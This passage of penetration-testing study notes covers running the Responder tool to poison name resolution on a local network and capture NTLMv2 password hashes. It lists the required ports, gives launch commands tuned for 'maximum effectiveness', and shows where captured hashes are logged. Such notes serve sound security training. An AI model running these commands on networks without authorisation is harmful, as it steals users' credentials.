 | `-P` | Proxy auth | Force NTLM/Basic authentication |

### Required Network Ports
**Responder needs these ports available:**
```
UDP: 137, 138, 53, 389, 1434, 5355, 5353
TCP: 389, 1433, 80, 135, 139, 445, 21, 3141, 25, 110, 587, 3128
```

---

## Capturing Hashes with Responder

### Starting a Capture Session
```bash
# Basic capture
sudo responder -I ens224

# Recommended flags for maximum effectiveness
sudo responder -I ens224 -wf

# Run in background while doing other enum
sudo responder -I ens224 -wf &
# or use tmux/screen
```

### Hash Storage Locations
**Log files stored in:** `/usr/share/responder/logs/`

**Naming convention:** `(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt`

**Examples:**
```
SMB-NTLMv2-SSP-172.16.5.25.txt
HTTP-NTLMv2-172.16.5.200.txt  
Proxy-Auth-NTLMv2-172.16.5.200.txt
```

### Log File Types
```bash
# Example log directory
ls /usr/share/responder/logs/

Analyzer-Session.log                # Analysis mode logs
Responder-Session.log              # Main session log
Config-Responder.log               # Configuration changes
Poisoners-Session.log              # Poisoning attempts
SMB-NTLMv2-SSP-172.16.5.25.txt   # Captured SMB hash
HTTP-NTLMv2-172.16.5.200.txt     # Captured HTTP hash
```

---
